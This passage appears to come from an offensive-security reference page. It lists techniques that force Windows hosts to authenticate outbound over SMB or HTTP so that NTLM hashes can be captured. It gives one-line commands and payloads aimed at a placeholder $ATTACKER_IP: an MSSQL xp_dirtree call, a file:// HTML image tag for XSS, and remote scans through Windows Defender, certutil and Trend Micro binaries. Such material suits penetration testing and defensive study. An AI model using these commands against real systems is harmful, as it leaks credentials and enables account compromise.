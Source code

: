 ```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web/inputs/xss.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```
![](file://$ATTACKER_IP/something/something.png)
```

### Web server file inclusion

[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Certutil

```bash
certutil.exe -syncwithWU \\$ATTACKER_IP\share
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

